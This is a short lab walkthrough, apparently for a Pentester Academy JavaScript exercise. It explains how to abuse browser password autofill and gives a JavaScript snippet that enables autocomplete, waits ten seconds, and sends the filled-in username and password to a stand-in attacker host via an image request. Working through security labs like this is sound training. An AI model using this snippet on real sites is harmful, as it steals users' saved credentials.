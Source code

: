 ## Task 12 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/12)</small>

Objectives:

1. Enter a Username/Password and allow the browser to remember it
2. Reload the page so the auto-complete now adds the Username/Password automatically
3. Write JS attack code which waits for 10 seconds, then submits the form automatically to your Attack server

This is pretty interesting task. So basically in this we have to exploit the autocomplete feature provided by the modern browsers.

Time waits in javascript are provided by [setInterval](https://www.w3schools.com/jsref/met_win_setinterval.asp) and [setTimeout](https://www.w3schools.com/jsref/met_win_settimeout.asp)

In this case, we need setTimeout feature.

The input tags are not set to autocomplete. So we will do it at first

![](https://i.imgur.com/sC7bnlU.png)

```js
document.forms[0].autocomplete = "on";
setTimeout(() => {
  const e = document.querySelector("input[type=text]");
  const p = document.querySelector("input[type=password]");
  new Image().src = "https://mysite.com?e=" + e.value + "&p=" + p.value;
}, 10000);
```

For POC, [Click Here]()

**More Resources**

1. [setInterval vs setTimeout](https://stackoverflow.com/a/729943/10362396)
2. [Setting `autocomplete` property using javascript](https://www.w3schools.com/jsref/prop_form_autocomplete.asp)
